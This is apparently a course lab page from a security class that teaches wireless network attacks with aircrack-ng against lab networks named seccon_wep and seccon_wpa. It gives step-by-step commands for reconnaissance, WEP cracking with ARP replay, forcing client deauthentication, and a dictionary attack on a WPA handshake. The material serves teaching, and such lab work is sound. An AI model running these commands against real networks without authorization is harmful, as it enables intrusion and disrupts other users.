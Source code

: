 ```yaml
---
title: Wireless
layout: module
---
```


# Hacking Wireless Networks

IMPORTANT!: Gaining access to networks without permission is considered
an illegal act or crime in most countries. Know the law and obey.

*Aircrack-ng* [http://www.aircrack-ng.org/](http://www.aircrack-ng.org/) is
a set of tools for auditing wireless networks. The goal of these
exercises is to introduce some of their capabilities. The man pages are
very thorough and are more than enough to complete the exercises without
"cheating". You are encouraged to find the solutions in the man pages.
Please pay attention to the large variety of features the toolset offers
as we will only be able to cover a tiny fraction.

**You will need to be root to use most of these utilities.**

## Exercise 1: Recon

### Task 1

Use *airodump-ng* to find our targets' BSSIDs, channels, and security
settings given their ESSIDs: **seccon_wep** and **seccon_wpa**. Make
note of these details, you will need them later. Stop the process when
you are done.

In order to sniff a wireless network, the adapter needs to be put into
monitor mode. Some processes may interfere with the adapter while in
monitor mode.

{% capture code %}
airmon-ng check
{% endcapture %}
{% include copy-paste.html title="Airmon Check" code=code %}

List the processes that may interfere. It is best to kill those in
normal testing. **Do not kill any processes for this lab (e.g. dhclient
& wpa_supplicant).**

{% capture code %}
airmon-ng check kill
{% endcapture %}
{% include copy-paste.html title="Killing conflicting processes" code=code %}

This command would kill potentially interfering processes, but don't
use it for this lab.

Put the wireless interface wlan0 in monitor mode. A new interface
wlan0mon0 will be created.

{% capture code %}
airmon-ng start wlan0
{% endcapture %}
{% include copy-paste.html title="Configuring the wireless interface wlan0 in monitor mode." code=code %}

Use airodump-ng.

{% capture code %}
airodump-ng --essid seccon_wep --essid seccon_wpa wlan0mon
{% endcapture %}
{% include copy-paste.html title="Using airodump-ng" code=code %}

## Exercise 2 : Cracking WEP

### Task 1

Run airodump-ng to start capturing packets on the target network
utilizing WEP. Let this capture continue.

{% capture text %}
<pre>
    airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

Use aircrack-ng PTW (Pyshkin, Tews, Weinmann) method to crack the WEP
PSK.

{% capture text %}
<pre>
       # -a 1 specifies we are cracking WEP
       aircrack-ng -a 1 [-b $target_bssid] $capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Anywhere from 20k-60k IVs will be needed. Use aireplay-ng to spoof an
associated station and replay ARP frames to increase the data rate.

{% capture text %}
<pre>
      # -3 indicates replay ARP frames
      aireplay-ng -3 -b $target_bssid -h $spoofed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3 : Obtaining the WPAv2 PSK

### Task 1

Use airodump-ng to capture a WPA handshake corresponding to a target
network.

{% capture text %}
<pre>
      # Wait until the WPA handshake appears in the top line.
      airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

If the handshake doesn't reveal itself passively, use aireplay-ng to
deauthenticate an associated station. This will force a handshake to
occur.

{% capture text %}
<pre>
       # -0 1 indicates send one set of deauth packets
       aireplay-ng -0 1 -a $target_bssid -c $authed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Use *aircrack-ng* to find the WPA PSK using the
dictionary */usr/share/wordlists/fasttrack.txt*.

{% capture text %}
<pre>
      # -a 2 specifies we are looking for a WPA handshake
      aircrack-ng -a 2 [-b $target_bssid] -w /usr/share/wordlists/fasttrack.txt $handshake_capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}
